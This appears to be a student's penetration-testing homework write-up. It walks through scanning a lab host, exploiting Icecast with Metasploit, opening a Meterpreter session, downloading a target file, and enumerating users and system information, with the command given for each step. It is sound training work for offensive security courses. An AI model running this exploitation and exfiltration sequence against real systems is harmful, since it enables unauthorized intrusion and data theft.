 # Penetration Test Engagement
1. Perform a service and version scan using Nmap to determine which services are up and running:
-  Run the Nmap command that performs a service and version scan against the target.
    - Answer: `nmap -sV 192.168.0.20`
    - ![alt_text](HW17/image1.png)
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
- Run the SearchSploit commands to show available Icecast exploits.
  - Answer: `searchsploit icecast`
  - ![alt_text](HW17/image2.png)
3. Now that we know which exploits are available to us, let's start Metasploit:
- Run the command that starts Metasploit:
  - Answer: `msfconsole`
  - ![alt_text](HW17/image3.png)
4. Search for the Icecast module and load it for use.
- Run the command to search for the Icecast module:
   - Answer:`search icecast`
   - ![alt_text](HW17/image4.png)
- Run the command to use the Icecast module:
  - Note: Instead of copying the entire path to the module, you can use the number in front of it.
    - Answer: `use 0`
    - ![alt_text](HW17/image5.png)
5. Set the RHOST to the target machine.
- Run the command that sets the RHOST:
  - Answer: `set RHOST 192.168.0.20`
  - ![alt_text](HW17/image6.png)
6. Run the Icecast exploit.
- Run the command that runs the Icecast exploit.
  - Answer: `run`
  - ![alt_text](HW17/image7.png)
- Run the command that performs a search for the secretfile.txt on the target.
  - Answer: `search -f *secretfile*.txt`
  - ![alt_text](HW17/image7.png)
7. You should now have a Meterpreter session open.
- Run the command to performs a search for the recipe.txt on the target:
  - Answer:`search -f *recipe*.txt`
  - ![alt_text](HW17/image8.png)
- Bonus: Run the command that exfiltrates the recipe*.txt file:
  - Answer: `download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'`
  - ![alt_text](HW17/image9.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
- Command to find local exploits:
  - Answer: `run post/multi/recon/local_exploit_suggester`
  - ![alt_text](HW17/image10.png)
- Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

## Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
  - Answer: `run post/windows/gather/enum_logged_on_users`
  - ![alt_text](HW17/image11.png)
B. Open a Meterpreter shell and gather system information for the target.
  - Answer: `shell`
  - ![alt_text](HW17/image12.png)
C. Run the command that displays the target's computer system information:
  - Answer: `systeminfo`
  - ![alt_text](HW17/image13.png)
  - ![alt_text](HW17/image14.png)
